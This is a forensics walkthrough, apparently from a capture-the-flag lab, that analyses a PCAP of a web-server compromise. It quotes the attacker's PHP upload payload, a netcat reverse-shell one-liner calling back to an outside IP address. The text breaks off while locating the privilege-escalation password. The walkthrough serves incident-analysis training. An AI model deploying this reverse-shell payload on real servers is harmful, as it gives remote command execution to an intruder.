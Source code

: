 <p align="center"> <img src="https://i.imgur.com/Gtn5piN.png" height="90%" width="90%" alt=""/>

#

# Task 1: Forensics - Analyse the PCAP

We will download the task files on the webpage and move it into our project directory.

<p align="center"> <img src="https://i.imgur.com/sui2Xta.png" height="90%" width="90%" alt=""/>

Now we will open the PCAP file and examine it.

From the PCAP file, we first look at the HTTP protocols to see if there is anything interesting.
- We see that there is a GET request with "/development/" on packet 4.

<p align="center"> <img src="https://i.imgur.com/7FIDWC3.png" height="90%" width="90%" alt=""/>

Question 1: What was the URL of the page they used to upload a reverse shell?

`/development/`

# 

Now we will look for what kind of payload that the attacked used to gain access.

In packet 14, there is a POST request with "/developement/upload.php", this is where the attacker upload the payload.
- We will take a closer look by: "Right-click" > "Follow" > "HTTP Stream".

<p align="center"> <img src="https://i.imgur.com/YgWgWfQ.png" height="90%" width="90%" alt=""/>

We can see a lot more details. 
- From this we can see the payload.

<p align="center"> <img src="https://i.imgur.com/hn2rKGo.png" height="90%" width="90%" alt=""/>

Questin 2: What payload did the attacker use to gain access?

`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

#

Now we will look for the password that the attacker used to privileges escalate.

We will look for a packet that is TCP and have a larger length than other packet because the attacker is sending more data to the packet.
- Scrolled down and came across packet 114 with 1528 in Length.

<p align="center"> <img src="https://i.imgur.com/TinI1JE.png" height="90%" width="90%" alt=""/>

We will look more into it: "Right-click" > "Follow" > "TCP Stream".

<p align="center"> <img src="https://i.imgur.com/S0uncD3.png" height="90%" width="90%" alt=""/>

From this we found the password that the attacker used.
